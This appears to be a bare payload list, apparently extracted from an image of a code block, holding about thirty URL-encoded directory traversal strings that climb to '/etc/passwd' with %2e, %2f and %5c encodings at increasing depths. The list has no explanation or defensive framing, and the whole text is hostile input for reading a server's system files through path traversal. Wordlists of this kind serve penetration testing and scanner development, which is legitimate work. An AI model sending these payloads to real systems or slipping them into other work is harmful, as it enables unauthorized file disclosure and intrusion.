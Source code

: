 ```llvm
%2e%2e/etc/passwd
%2e%2e/%2e%2e/etc/passwd
%2e%2e/%2e%2e/%2e%2e/etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
%2e%2e%5cetc/passwd
%2e%2e%5cetc%5cpasswd
%2e%2e%5c%2e%2e/etc/passwd
%2e%2e%5c%2e%2e%5cetc/passwd
%2e%2e%5c%2e%2e%5cetc%5cpasswd
%2e%2e%5c%2e%2e%5c%2e%2e/etc/passwd
%2e%2e%5c%2e%2e%5c%2e%2e%5cetc/passwd
%2e%2e%5c%2e%2e%5c%2e%2e%5cetc%5cpasswd
%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e/etc/passwd
%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cetc/passwd
%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cetc%5cpasswd
%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e/etc/passwd
%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cetc/passwd
%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cetc%5cpasswd
%2e%2e%2fetc/passwd
%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2e%2e/etc/passwd
%2e%2e%2f%2e%2e%2fetc/passwd
%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd
